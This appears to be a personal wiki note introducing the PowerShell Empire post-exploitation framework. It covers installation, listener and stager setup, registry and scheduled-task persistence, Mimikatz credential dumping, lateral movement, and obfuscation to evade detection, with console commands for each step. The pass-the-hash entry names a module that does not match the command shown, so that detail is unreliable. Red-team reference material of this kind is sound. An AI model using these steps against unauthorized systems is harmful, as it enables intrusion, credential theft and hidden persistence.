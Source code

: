 ## Overview
PowerShell Empire is a post-exploitation framework that leverages PowerShell scripts and modules to provide robust capabilities for penetration testing and red team operations. It is designed to operate entirely in-memory, making it difficult to detect by traditional endpoint protection tools. PowerShell Empire supports a wide range of post-exploitation functionalities, including privilege escalation, credential harvesting, lateral movement, and persistence.

## Features
- **In-Memory Execution:** Executes payloads and modules entirely in-memory, avoiding writing to disk.
- **Modular Framework:** Includes a vast library of modules for various post-exploitation tasks.
- **Cross-Platform Compatibility:** Supports Windows, macOS, and Linux operating systems.
- **Stealth and Evasion:** Utilizes PowerShell and Python, which are often whitelisted in enterprise environments.
- **Customizable Agents:** Supports customizable agents that can be adapted for specific needs or environments.

## Website
- [PowerShell Empire GitHub Repository](https://github.com/BC-SECURITY/Empire)

## Installation

### On Unix-based systems (Linux/macOS):
1. **Install Dependencies:**
   ```sh
   sudo apt-get update
   sudo apt-get install powershell
   sudo apt-get install git
   sudo apt-get install python3-pip
   ```

2. **Clone the Empire Repository:**
   ```sh
   git clone https://github.com/BC-SECURITY/Empire.git
   cd Empire
   ```

3. **Install Empire:**
   ```sh
   sudo ./setup/install.sh
   ```

### On Windows:
1. **Download and Install PowerShell:**
   - PowerShell Empire requires PowerShell to be installed. Download it from the [Microsoft PowerShell GitHub](https://github.com/PowerShell/PowerShell).

2. **Clone the Empire Repository:**
   ```sh
   git clone https://github.com/BC-SECURITY/Empire.git
   cd Empire
   ```

3. **Run the Setup Script:**
   ```sh
   .\setup\install.ps1
   ```

## Basic Usage
PowerShell Empire is run from the command line interface (CLI). Here are some common commands and usage examples:

### Starting the Empire Server
1. **Run Empire:**
   ```sh
   sudo ./empire
   ```

2. **Launch the Listener:**
   - In the Empire console, use:
   ```sh
   listeners
   ```
   - Choose the listener type (e.g., `http`) and start it with:
   ```sh
   uselistener http
   execute
   ```

### Generating an Agent
1. **Generate a PowerShell Stager:**
   ```sh
   usestager windows/launcher_bat
   set Listener http
   execute
   ```
   - Copy the generated PowerShell script to use on the target machine.

### Interacting with Agents
1. **List Active Agents:**
   ```sh
   agents
   ```

2. **Interact with an Agent:**
   ```sh
   interact <agent_name>
   ```

3. **Run a Module on an Agent:**
   ```sh
   usemodule <module_name>
   ```
   - Example:
   ```sh
   usemodule privesc/powerup/allchecks
   execute
   ```

### Persistence Techniques
PowerShell Empire includes several modules to establish persistence on a compromised host:

- **Registry Persistence:**
  ```sh
  usemodule persistence/elevated/registry
  execute
  ```

- **Scheduled Task Persistence:**
  ```sh
  usemodule persistence/elevated/schtasks
  execute
  ```

## Advanced Features
PowerShell Empire offers several advanced features for more specific use cases:

### Credential Harvesting
- **Mimikatz Integration:**
  - Use the Mimikatz module to extract credentials from memory:
  ```sh
  usemodule credentials/mimikatz/lsadump
  execute
  ```

### Lateral Movement
- **Pass-the-Hash:**
  - Use the `pth` module to perform pass-the-hash attacks:
  ```sh
  usemodule lateral_movement/invoke_wmi
  execute
  ```

### Bypassing Detection
- **Obfuscate PowerShell Scripts:**
  - Use built-in obfuscation techniques to evade detection:
  ```sh
  usestager windows/launcher_bat
  set ObfuscateCommand True
  execute
  ```

## Tools for Post-Exploitation Using PowerShell Empire

- **Credential Dumping:** Extract credentials from memory using modules like Mimikatz.
- **Privilege Escalation:** Use built-in modules to identify privilege escalation vectors.
- **Data Exfiltration:** Exfiltrate data over HTTP, HTTPS, or other covert channels.
- **Remote Execution:** Execute commands and scripts on compromised hosts.

## Best Practices
- **Limit Use to Authorized Testing:** Only use PowerShell Empire for authorized penetration testing and red team engagements.
- **Avoid Detection:** Use obfuscation and in-memory execution to minimize the risk of detection.
- **Clean Up After Use:** Remove all artifacts and persistence mechanisms after testing to avoid leaving backdoors.
- **Keep Empire Updated:** Regularly update PowerShell Empire to benefit from new features and modules.
- **Combine with Other Tools:** Use Empire alongside other post-exploitation frameworks like [[Metasploit]], [[Cobalt Strike]], and [[Responder]] for comprehensive assessments.

## References
- [PowerShell Empire GitHub Repository](https://github.com/BC-SECURITY/Empire)
- [Empire User Guide](https://bc-security.gitbook.io/empire-user-guide/)
- [PowerShell Security Best Practices](https://docs.microsoft.com/en-us/powershell/scripting/security/overview?view=powershell-7.1)


